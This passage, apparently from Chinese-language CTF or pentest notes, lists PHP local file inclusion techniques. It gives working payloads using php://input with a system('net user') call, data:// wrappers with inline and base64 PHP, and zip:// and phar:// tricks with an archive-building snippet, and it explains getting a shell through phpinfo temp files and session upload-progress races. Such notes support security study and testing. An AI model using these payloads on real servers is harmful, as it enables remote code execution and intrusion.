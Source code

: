 - `?page=php://input`
  - post data: `<?php system("net user"); ?>`
  - 需要有開啟`url_allow_include`，5.4.0直接廢除

## phpinfo

- 對server以form-data上傳文件，會產生tmp檔
- 利用phpinfo得到tmp檔路徑和名稱
- LFI Get shell
- 限制
  - Ubuntu 17後，預設開啟`PrivateTmp`，無法利用

## php session

- Session一般存在`sess_{PHPSESSID}`中
- 可以透過修改Cookie再LFI拿shell
- 以下為常見存放路徑
  - /var/tmp/
  - /tmp/
  - /var/lib/php5/
  - /var/lib/php/
- `session.upload_progress`
  - PHP預設開啟
  - 用來監控上傳檔案進度
  - 當`session.upload_progress.enabled`開啟，可以POST在`$_SESSION`中添加資料 (`sess_{PHPSESSID}`)
  - 配合LFI可以getshell
  - `session.upload_progress.cleanup=on`時，可以透過Race condition
  - Example
    - HITCON CTF 2018 - One Line PHP Challenge

## data://

- 條件
  - allow_url_fopen: On
  - allow_url_include: On
- 用法
  - `?file=data://text/plain,<?php phpinfo()?>`
  - `?file=data:text/plain,<?php phpinfo()?>`
  - `?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=`

## zip / phar

- 適用驗證副檔名時
- zip
  - 新建zip，裡頭壓縮php腳本(可改副檔名)
  - `?file=zip://myzip.zip#php.jpg`
- phar
  - ```php
    <?php
      $p = new PharData(dirname(__FILE__).'/phartest.zip',0,'phartest2',Phar::ZIP);
      $x = file_get_contents('./a.php');
      $p->addFromString('b.jpg', $x);
    ?>
  - 構造 `?file=phar://phartest.zip/b.jpg`
